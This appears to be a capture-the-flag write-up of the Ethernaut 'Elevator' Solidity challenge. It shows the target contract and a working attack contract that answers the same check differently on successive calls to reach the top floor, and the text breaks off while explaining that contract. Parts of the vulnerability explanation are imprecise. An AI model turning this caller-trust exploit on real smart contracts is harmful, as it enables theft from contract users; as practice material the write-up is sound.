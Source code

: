 # Target Contract Review

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```
Challenge's message.

>This elevator won't let you reach the top of your building. Right?

This Solidity code represents an elevator contract with a corresponding interface for a building. The elevator contract (**Elevator**) keeps track of the current floor and whether it has reached the top floor. The **goTo** function is used to move the elevator to a specified floor. The **Building** interface defines a single function **isLastFloor** that takes a floor number as an argument and returns a boolean value indicating whether it is the last floor in the building.

In the **goTo** function, the contract checks if the specified floor is not the last floor by calling the **isLastFloor** function of the **building** instance (which is the contract that called the **goTo** function). If it is not the last floor, the **floor** variable is updated with the new floor number, and the **top** variable is set based on whether the new floor is the last floor. The code is missing some essential details such as the implementation of the **Building** interface and the deployment of the contracts, but this is the basic idea behind this elevator contract.

# Subverting

This contract gets an instance from **Building** interface in the **goTo()** function and calls the vulnerable **isLastFloor(uint)** function. The reason for being vulnerable of this function is it just returns a boolean value and **it doesn't change or define anything**. **That's why it allows modification to the function that the attacker wants**. 

Let's continue to explain the vulnerability with our attack contract. Here is our attack contract.

```solidity
pragma solidity ^0.8.17;

interface IElevator {
  function goTo(uint) external;
}

contract Attack{

    bool x = false;

    function isLastFloor(uint)external returns(bool){
        if(x){
            return true;
        }
        x = true;
        return false;
    }

    function attack(address _target)external{
        IElevator target = IElevator(_target);
        target.goTo(1);
    }
}
```

In out attack contract, first we defined an interface named **IElavator** which will help us to call **goTo()** function from the target cintract. 

